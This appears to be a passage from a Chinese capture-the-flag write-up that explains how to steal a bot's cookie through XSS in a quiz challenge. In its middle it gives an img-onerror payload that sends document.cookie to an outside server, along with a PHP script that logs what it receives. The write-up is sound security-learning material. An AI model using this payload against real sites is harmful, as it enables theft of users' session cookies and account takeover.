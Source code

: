 这样页面就会像预期的一样显示弹窗 `1`。

在注入的脚本中使用 `document.cookie` 就可以毫无困难地获取 Cookie。下一个问题是如何将这个 Cookie 显示出来。在网络攻击实践中，一般会让浏览器将其发给攻击者的服务器，然后由攻击者的服务器收集信息。

注入内容：

```html
<img
    src="."
    onerror="this.src='https://example.com/public/logdata/?info='+document.cookie">
```

服务器上的 `$public_html/public/logdata/index.php`：

```php
<?php
$info = $_REQUEST['info'] ?? '';
file_put_contents('info.txt', $info);
$img = imageCreateTrueColor(16, 16);
header('content-type: image/png');
imagePNG($img);
```

在自己浏览器上提交注入代码，服务器确实收集到了本机上的 Cookie。

然后将网址提交上去。大功告...告成？

</mdc-imgborder>

![](./IntegralQuiz/submit-timeout.png)

实际操作：服务器上的命令行程序因为运行超时暴毙了，`index.php` 也没有收集到结果。

这个服务器似乎不允许程序访问外网。那就寄了。寄了吗？何必拘泥于以往的网络攻击实践？直接让命令行把 Cookie 显示出来，不是更香吗？

继续阅读 `bot.py`。

```python
try:
    greeting = driver.execute_script(
        f"return document.querySelector('#greeting').textContent")
    score = driver.execute_script(
        f"return document.querySelector('#score').textContent")
except selenium.common.exceptions.JavascriptException:
    print('JavaScript Error: Did you give me correct URL?')
    exit(1)
```

这个程序显示选手成绩的方式是直接从 `#greeting` `#score` 两个元素中获取文本！所以，注入的代码只要令这里显示 Cookie 就可以了。
